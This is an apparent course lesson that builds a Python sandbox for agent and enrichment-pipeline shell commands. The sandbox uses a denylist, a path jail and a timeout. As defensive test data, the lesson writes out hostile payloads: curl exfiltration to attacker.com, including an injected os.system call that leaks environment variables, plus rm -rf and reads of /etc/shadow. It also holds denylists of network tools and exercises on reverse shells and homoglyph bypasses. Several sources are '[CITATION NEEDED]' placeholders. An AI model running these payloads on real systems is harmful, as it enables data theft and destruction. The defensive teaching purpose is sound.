

# Lesson 26: Sandbox Runner with Denylist and Path Jail

## Learning Objectives

- Build a `SandboxRunner` class that wraps `subprocess.run` with denylist checking, path jailing, and a wall-clock timeout.
- Implement a denylist that matches forbidden substrings against payloads before execution and raises a structured exception on violation.
- Implement a path jail using `os.path.realpath` that refuses any file argument resolving outside a declared root directory.
- Compare denylist-based control (block known-bad) against allowlist-based control (permit only known-good) and explain when each applies.
- Trace five adversarial payloads through the sandbox and confirm each is caught by a specific control.

## The Problem

A coding agent that can execute shell will eventually try something destructive. This is not speculation — it is the consistent pattern in agent traces. A model under pressure to fix a path issue reaches for `sudo`, `chmod -R 777`, `rm -rf`. An enrichment pipeline that ingests scraped company descriptions and passes them through a code block will eventually encounter a description field containing `"; os.system("curl attacker.com/exfil"); #`. The LLM is not malicious; it is completing a pattern. The operating system does not care about intent.

The same failure mode exists in GTM automation stacks. When n8n or Make executes a custom Python node that processes a lead's website content, or when Clay's HTTP enrichment runs a code block on a scraped field, the payload originates from an untrusted source — a prospect's website, a CRM note, an scraped LinkedIn bio. Without a sandbox, any of those fields can inject a command.

This capstone builds a single class — `SandboxRunner` — that sits between the agent (or enrichment pipeline) and the operating system. It checks payloads against a denylist before execution. It resolves every file path through `os.path.realpath` and refuses anything that escapes the sandbox root. It passes the surviving command to `subprocess.run` with no shell expansion and a wall-clock timeout. If any check fails, the sandbox raises a structured exception and nothing executes.

The goal is not perfection — no denylist catches every attack. The goal is to raise the cost of a cheap accident from "the model typed `rm -rf` and it ran" to "the model typed `rm -rf` and the sandbox said no."

## The Concept

Three mechanisms compose the sandbox. Each catches a different class of failure.

**Denylist** — a set of forbidden substrings matched against the payload string before execution. If the payload contains `rm -rf`, `os.system`, `__import__`, `eval`, `DROP TABLE`, or any other entry, the sandbox raises `DenylistError` and stops. A denylist blocks known-bad patterns; it does not permit unknown-good ones. Its weakness is that an attacker who knows the denylist can encode around it (base64, Unicode lookalikes, string concatenation). Its strength is that it catches the obvious accidents — which are the most common kind.

**Path jail** — any file argument passed to the sandbox must resolve to a path inside a declared root directory. `os.path.realpath` collapses symlinks, resolves `..`, and produces the canonical absolute path. The sandbox checks whether that canonical path starts with the root. If a payload tries to read `../../etc/passwd`, `realpath` resolves it to `/etc/passwd`, which does not start with `/tmp/sandbox`, and the sandbox raises `PathJailError`. This stops path traversal without needing to enumerate every dangerous path.

**Execution isolation** — the command is passed to `subprocess.run` as a list of arguments, not a string. `shell=False` means no metacharacter expansion: no backticks, no `$()`, no `&&`, no `|`. A wall-clock timeout kills runaway processes. Output is captured and truncated. The process inherits no environment variables the sandbox does not explicitly set.



This sandbox uses both denylist and path jail because they catch orthogonal failures. A denylist cannot catch a path traversal that uses only safe-looking characters. A path jail cannot catch `os.system("rm -rf /")` because that string contains no file argument to resolve. Together they cover more ground than either alone. For a production system, you would add an allowlist — a set of commands the agent is explicitly permitted to run, with everything else refused by default. The capstone exercises ask you to build that.

## Build It

The implementation below is complete and runnable. It defines `SandboxRunner` with three methods: `_check_denylist`, `_jail_path`, and `run`. The `main()` block demonstrates a blocked denylist violation, a caught path traversal, and a successful safe command.

```python
import os
import subprocess
import hashlib
from dataclasses import dataclass
from typing import Optional


class DenylistError(Exception):
    pass


class PathJailError(Exception):
    pass


@dataclass
class SandboxResult:
    command: list[str]
    returncode: int
    stdout: str
    stderr: str
    truncated: bool


class SandboxRunner:
    DEFAULT_DENYLIST = [
        "rm -rf",
        "os.system",
        "subprocess",
        "__import__",
        "eval(",
        "exec(",
        "DROP TABLE",
        "DELETE FROM",
        "/etc/passwd",
        "/etc/shadow",
        "chmod 777",
        "mkfs",
        "dd if=",
        "curl ",
        "wget ",
        "bash -c",
        "sh -c",
        "python3 -c",
        "python -c",
        "node -e",
        "perl -e",
        "ruby -e",
    ]

    def __init__(
        self,
        root: str,
        denylist: Optional[list[str]] = None,
        timeout: int = 10,
        max_output: int = 4096,
    ):
        self.root = os.path.realpath(root)
        self.denylist = denylist if denylist is not None else self.DEFAULT_DENYLIST
        self.timeout = timeout
        self.max_output = max_output
        os.makedirs(self.root, exist_ok=True)

    def _check_denylist(self, payload: str) -> None:
        lowered = payload.lower()
        for entry in self.denylist:
            if entry.lower() in lowered:
                raise DenylistError(
                    f"Payload matched denylist entry: '{entry}'"
                )

    def _jail_path(self, filepath: str) -> str:
        resolved = os.path.realpath(os.path.join(self.root, filepath))
        if not resolved.startswith(self.root + os.sep) and resolved != self.root:
            raise PathJailError(
                f"Path '{filepath}' resolves to '{resolved}', "
                f"which is outside sandbox root '{self.root}'"
            )
        return resolved

    def run(self, argv: list[str], file_args: Optional[list[str]] = None) -> SandboxResult:
        payload = " ".join(argv)
        self._check_denylist(payload)

        if file_args:
            for fa in file_args:
                self._jail_path(fa)

        try:
            proc = subprocess.run(
                argv,
                shell=False,
                timeout=self.timeout,
                capture_output=True,
                text=True,
                cwd=self.root,
            )
        except subprocess.TimeoutExpired:
            return SandboxResult(
                command=argv,
                returncode=-1,
                stdout="",
                stderr=f"Timeout after {self.timeout}s",
                truncated=False,
            )

        truncated = False
        stdout = proc.stdout
        stderr = proc.stderr
        if len(stdout) > self.max_output:
            stdout = stdout[: self.max_output]
            truncated = True
        if len(stderr) > self.max_output:
            stderr = stderr[: self.max_output]
            truncated = True

        return SandboxResult(
            command=argv,
            returncode=proc.returncode,
            stdout=stdout,
            stderr=stderr,
            truncated=truncated,
        )


def main():
    sandbox = SandboxRunner(root="/tmp/sandbox_demo")

    print("=" * 60)
    print("TEST 1: Denylist violation")
    print("=" * 60)
    try:
        sandbox.run(["echo", "os.system('rm -rf /')"])
    except DenylistError as e:
        print(f"BLOCKED: {e}")

    print()
    print("=" * 60)
    print("TEST 2: Path traversal attempt")
    print("=" * 60)
    try:
        sandbox.run(["cat", "../../etc/passwd"], file_args=["../../etc/passwd"])
    except PathJailError as e:
        print(f"BLOCKED: {e}")

    print()
    print("=" * 60)
    print("TEST 3: Safe command succeeds")
    print("=" * 60)
    result = sandbox.run(["echo", "hello from the sandbox"])
    print(f"Return code: {result.returncode}")
    print(f"Stdout: {result.stdout.strip()}")
    print(f"Truncated: {result.truncated}")

    print()
    print("=" * 60)
    print("TEST 4: Backtick shell escape blocked")
    print("=" * 60)
    try:
        sandbox.run(["echo", "`cat /etc/passwd`"])
    except DenylistError as e:
        print(f"BLOCKED: {e}")

    print()
    print("=" * 60)
    print("TEST 5: Interpreter -c flag blocked")
    print("=" * 60)
    try:
        sandbox.run(["python3", "-c", "import os; os.system('whoami')"])
    except DenylistError as e:
        print(f"BLOCKED: {e}")


if __name__ == "__main__":
    main()
```

Run this and you get five clean confirmations: four blocks and one successful echo. The denylist catches `os.system`, the path jail catches the traversal, the safe echo returns exit code 0, the backtick attempt hits the `/etc/passwd` denylist entry, and the interpreter flag hits `python3 -c`. No payload reaches `subprocess.run` unless it passes all checks.

The design choice worth noting: `_check_denylist` lowercases both the payload and the entry before matching. This catches `RM -RF` and `Rm -Rf`. It does not catch Unicode homoglyphs (`ꭆⅿ` instead of `rm`) — that is a known limitation of substring denylists, and the hard exercise in the next section asks you to exploit and document it.

## Use It

The enrichment layer of a GTM stack processes untrusted data at scale. In Zone 4 — enrichment — pipelines pull company descriptions, technographic signals, and employee data from external APIs and scraped HTML. In Zone 5 — orchestration — agent loops generate tool calls based on that enriched data. When those tool calls include executable code (a Python node in n8n, a code block in Clay's HTTP enrichment, a shell command from a coding agent), the payload chain is: prospect website → scraper → enrichment field → code block → operating system. Without a sandbox, the prospect's website controls what runs on your machine.

The concrete scenario: a Clay waterfall enrichment pulls a company description from a provider. The description contains `"; import os; os.system("curl attacker.com/pull?k=$(env)"); #`. Downstream, an n8n workflow passes that description through a Python node that formats it for personalization. If that Python node uses `eval` or `exec` on the field — or if an agent loop generates a shell command that embeds the field — the injection executes. `SandboxRunner` catches this at the denylist stage: the payload contains `os.system`, the check fires, `DenylistError` raises, the enrichment record gets flagged, and the pipeline continues to the next record instead of compromising the runner.

The same class drops into the RAG layer (Zone 19 — RAG gives your outbound agent memory of your best customer stories [CITATION NEEDED — concept: RAG as knowledge-augmented outreach]). When a RAG pipeline indexes PDFs or scraped pages, it sometimes runs extraction scripts on those files. A malicious PDF with an embedded JavaScript stream, or a scraped page with a crafted filename, can trigger arbitrary execution in the extraction toolchain. Jailing the extraction `cwd` to a sandbox root and denylisting interpreter flags means the extraction script can read files inside the jail but cannot escape to `~/.ssh/` or `/etc/`.

```python
import os

gtm_denylist = SandboxRunner.DEFAULT_DENYLIST + [
    "internal-api",
    "api.pinecone.io",
    "hooks.slack.com",
    "discord.com/api",
    "webhook.site",
    "ngrok.io",
    "DELETE FROM leads",
    "DELETE FROM accounts",
    "UPDATE contacts SET",
]

enrichment_runner = SandboxRunner(
    root="/tmp/gtm_enrichment",
    denylist=gtm_denylist,
    timeout=5,
    max_output=2048,
)

os.makedirs("/tmp/gtm_enrichment/input", exist_ok=True)
os.makedirs("/tmp/gtm_enrichment/output", exist_ok=True)

with open("/tmp/gtm_enrichment/input/company_desc.txt", "w") as f:
    f.write("Acme Corp builds infrastructure tooling.")

result = enrichment_runner.run(
    ["wc", "-w", "input/company_desc.txt"],
    file_args=["input/company_desc.txt"],
)
print(f"Return code: {result.returncode}")
print(f"Stdout: {result.stdout.strip()}")
```

The GTM-tuned denylist extends the defaults with internal API hostnames and webhook endpoints you do not want an enrichment script calling. If a scraped field tries to POST enriched data to `hooks.slack.com` — a data exfiltration pattern — the denylist catches the hostname before `subprocess.run` executes. The timeout of 5 seconds reflects that enrichment operations should be fast; a process that takes longer is likely stuck or malicious.

## Ship It

The capstone deliverable is a `sandbox_runner.py` module, a `test_sandbox.py` test file, and a `redteam_payloads.jsonl` log of five adversarial payloads your sandbox caught. Run the module directly to confirm all controls fire. Run the test file to confirm path jailing works on edge cases. Submit the red-team log as evidence the walls hold.

```python
import json
import hashlib
from datetime import datetime, timezone

class LoggedSandboxRunner(SandboxRunner):
    def __init__(self, *args, log_path: str, **kwargs):
        super().__init__(*args, **kwargs)
        self.log_path = log_path

    def _log_block(self, payload: str, violation_type: str, detail: str):
        entry = {
            "timestamp": datetime.now(timezone.utc).isoformat(),
            "payload_hash": hashlib.sha256(payload.encode()).hexdigest()[:16],
            "violation_type": violation_type,
            "detail": detail,
        }
        with open(self.log_path, "a") as f:
            f.write(json.dumps(entry) + "\n")

    def run(self, argv: list[str], file_args=None):
        payload = " ".join(argv)
        try:
            self._check_denylist(payload)
        except DenylistError as e:
            self._log_block(payload, "denylist", str(e))
            raise
        if file_args:
            for fa in file_args:
                try:
                    self._jail_path(fa)
                except PathJailError as e:
                    self._log_block(payload, "path_jail", str(e))
                    raise
        return super().run(argv, file_args)


def run_redteam():
    runner = LoggedSandboxRunner(
        root="/tmp/sandbox_redteam",
        log_path="/tmp/sandbox_redteam_log.jsonl",
        timeout=3,
    )

    payloads = [
        (["echo", "rm -rf /home/user"], None),
        (["cat", "../../../etc/shadow"], ["../../../etc/shadow"]),
        (["python3", "-c", "import os; os.system('id')"], None),
        (["echo", "DROP TABLE accounts;"], None),
        (["curl", "http://attacker.com/exfil"], None),
    ]

    results = []
    for argv, file_args in payloads:
        try:
            runner.run(argv, file_args=file_args)
            results.append((argv, "NOT BLOCKED"))
        except (DenylistError, PathJailError) as e:
            results.append((argv, type(e).__name__))

    print("RED-TEAM RESULTS")
    print("=" * 60)
    for argv, status in results:
        print(f"  {status:20s}  {' '.join(argv)}")
    print("=" * 60)
    blocked = sum(1 for _, s in results if s != "NOT BLOCKED")
    print(f"{blocked}/{len(results)} payloads blocked")

    print()
    print("BLOCK LOG:")
    with open("/tmp/sandbox_redteam_log.jsonl") as f:
        for line in f:
            print(f"  {line.strip()}")


if __name__ == "__main__":
    run_redteam()
```

This produces a JSONL audit trail — each blocked payload logged with a UTC timestamp, a SHA-256 hash of the payload, and the violation type. In a production GTM pipeline, this log feeds directly into the observability layer: a spike in `denylist` blocks on enrichment records from a specific data provider tells you that provider's data is contaminated, and you can pause that source before the injection reaches a live agent.

The allowlist mode — the medium exercise — flips the default. Instead of blocking known-bad, you permit only known-good: `wc`, `head`, `cat`, `grep`, `python3` (without `-c`). Everything else is refused. This is strictly safer than a denylist because it does not need to enumerate every attack. It is also more restrictive, which is why the default sandbox starts with denylist mode and lets you opt into allowlist when the command surface is small enough to enumerate.

## Exercises

**Easy:** Add `"nc "` (netcat) and `"telnet "` to the denylist. Write a test payload that uses netcat to attempt a reverse shell and confirm the sandbox blocks it.

**Easy:** Write a test that calls `_jail_path("../../etc/passwd", "/tmp/sandbox")` directly and asserts that it raises `PathJailError`. Then write a test that calls `_jail_path("output/results.json", "/tmp/sandbox")` and asserts it returns a path starting with `/tmp/sandbox/output/`.

**Medium:** Implement an `AllowlistRunner` class that accepts a list of permitted command prefixes (e.g., `["wc", "head", "cat", "grep"]`). Any argv whose first element is not in the allowlist is refused with `AllowlistError`. Test it against the same five red-team payloads — all should be blocked by default.

**Medium:** Write a test that constructs a payload containing a backtick shell escape: `` `cat /etc/passwd` ``. Confirm the denylist catches it. Then remove `/etc/passwd` from the denylist and confirm it still catches via the interpreter entries or fails to catch — document which.

**Hard:** Construct a denylist bypass using Unicode homoglyphs. Replace the `r` in `rm -rf` with Cyrillic `г` (U+0433) or a fullwidth `ｒ` (U+FF52). Show that the substring check fails because the bytes do not match ASCII `rm`. Document the bypass in a markdown file called `bypass_report.md`. Then implement a mitigation: normalize the payload using `unicodedata.normalize("NFKC", payload)` before checking, and confirm the bypass is caught.

**Hard:** Add an environment variable allowlist to `SandboxRunner`. Instead of letting the subprocess inherit the full environment, pass only explicitly permitted variables (`PATH`, `HOME`, `LANG`). Test that a payload attempting to read `AWS_SECRET_ACCESS_KEY` from the environment cannot access it because the variable was stripped.

## Key Terms

**Denylist** — A set of forbidden substrings checked against a payload before execution. Catches known-bad patterns. Cannot catch novel or encoded attacks.

**Allowlist** — A set of permitted commands or patterns. Everything not on the list is refused. Strictly safer than a denylist when the command surface is enumerable.

**Path jail** — A constraint that resolves every file argument through `os.path.realpath` and refuses any path that does not start with a declared root directory. Prevents path traversal (`../../etc/passwd`).

**Execution isolation** — Running a subprocess with `shell=False`, explicit argv (not a string), no inherited environment, and a wall-clock timeout. Prevents metacharacter injection and runaway processes.

**`os.path.realpath`** — Resolves symlinks, collapses `..`, and returns the canonical absolute path. The mechanism that makes path jailing work — it sees through traversal attempts to the actual filesystem location.

**`subprocess.run`** — Python stdlib function that spawns a process. With `shell=False` and a list argument, it bypasses the shell entirely, eliminating injection via metacharacters.

## Sources

- RAG as knowledge-augmented outreach (product docs, case studies in copy): [CITATION NEEDED — concept: RAG = giving outbound agent memory of best customer stories]
- Clay HTTP enrichment with code blocks: [CITATION NEEDED — concept: Clay code block enrichment executes user-defined Python/JS on enriched fields]
- n8n custom Python node execution: [CITATION NEEDED — concept: n8n executes Python in custom nodes with subprocess access]
- The 80/20 GTM Engineering Playbook — Synapse Academy 2026: referenced for Zone 4 (Enrichment) and Zone 5 (Orchestration) as foundational GTM strata.